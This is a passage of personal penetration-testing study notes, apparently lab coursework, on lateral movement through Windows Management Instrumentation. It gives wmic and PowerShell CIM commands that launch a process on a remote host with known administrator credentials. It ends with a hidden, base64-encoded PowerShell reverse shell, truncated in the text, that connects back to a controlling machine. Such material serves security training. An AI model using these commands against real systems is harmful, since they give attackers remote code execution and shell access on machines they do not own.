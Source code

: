 public:: true

- [Windows Management Instrumentation](https://learn.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page) is an object-oriented feature that facilitates task automation.
- #+BEGIN_PINNED
  It uses **port 135** for remote access and uses a higher-range port *(19152-65535)* for session data.
  #+END_PINNED
- The `wmci` utility has been [deprecated around 21H1](https://learn.microsoft.com/en-us/windows/whats-new/deprecated-features), but let see how it can be used to spawn a process to a remote target for which we know administrator credentials
  id:: 65a7a0b2-1d28-4245-9f26-d094d4c26a84
	- ```cmd
	  wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
	  ```
	- #+BEGIN_IMPORTANT
	  System processes and services always run in [**session 0**](https://techcommunity.microsoft.com/t5/ask-the-performance-team/application-compatibility-session-0-isolation/ba-p/372361) as part of session isolation, which was introduced in Windows Vista. Because the *WMI Provider Host* is running as a **system service**, newly created processes through WMI are also spawned in **session 0**.
	  #+END_IMPORTANT
- Powershell is used nowadays as replacement for `wmci`, let's see how to use it to achieve the same ran as before.
	- First, we need to create a [PSCredential](https://learn.microsoft.com/en-us/powershell/scripting/learn/deep-dives/add-credentials-to-powershell-functions?view=powershell-7.2) object to store the domain user credentials that we use to access the remote target.
	  logseq.order-list-type:: number
		- ```powershell
		  $username = 'jen';
		  $password = 'Nexus123!';
		  $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
		  $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
		  ```
	- Next, we create a [*Common Information Model*](https://learn.microsoft.com/en-us/powershell/module/cimcmdlets/new-cimsession?view=powershell-7.2) (CIM) object and specify the target IP, creds to use and which process to start.
	  logseq.order-list-type:: number
		- ```powershell
		  $options = New-CimSessionOption -Protocol DCOM
		  $session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $options 
		  $command = 'calc';
		  ```
	- Finally, we execute the process on the remote target.
	  logseq.order-list-type:: number
		- ```powershell
		  Invoke-CimMethod -CimSession $session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$command};
		  ```
	- A more useful command to execute remotely could be a reverse shell. From the previous example we can simply swap the `$command` variable with something similar to a base64 powershell encoded [reverse shell]([[Windows Reverse Shells]]).
	  id:: 65a01d55-0fd2-4bbd-9251-edd80b50bbb9
		- ```powershell
		  $command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';
		  ```